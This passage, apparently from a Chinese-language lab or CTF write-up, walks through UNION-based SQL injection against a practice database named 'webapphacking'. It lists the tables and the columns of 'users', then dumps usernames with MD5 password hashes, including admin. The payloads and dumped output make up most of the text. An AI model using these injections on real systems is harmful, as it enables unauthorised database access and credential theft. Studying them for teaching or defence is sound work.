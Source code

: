 之后爆这个库的表名

```plain
-1' union select group_concat(table_name),2,3 from information_schema.tables where table_schema='webapphacking'#
```

[![](assets/1701678867-d4586baae6a67016ded0af0746c428bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203327-543d53e4-8dea-1.png)

爆字段名

```plain
-1' union select group_concat(column_name),2,3 from information_schema.columns where table_schema='webapphacking' and table_name='users'#
```

[![](assets/1701678867-a76638423b7d9a5409d862cf0c290637.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203331-5727bc3e-8dea-1.png)

爆内容

```plain
-1' union select group_concat(user,0x5c,pasword),2,3 from webapphacking.users#
```

得到

```plain
user1\5d41402abc4b2a76b9719d911017c592
user2\6269c4f71a55b24bad0f0267d9be5508
user3\0f359740bd1cda994f8b55330c86d845
test\05a671c66aefea124cc08b76ea6d30bb
superadmin\2386acb2cf356944177746fc92523983
test1\05a671c66aefea124cc08b76ea6d30bb
admin\e10adc3949ba59abbe56e057f20f883e
```
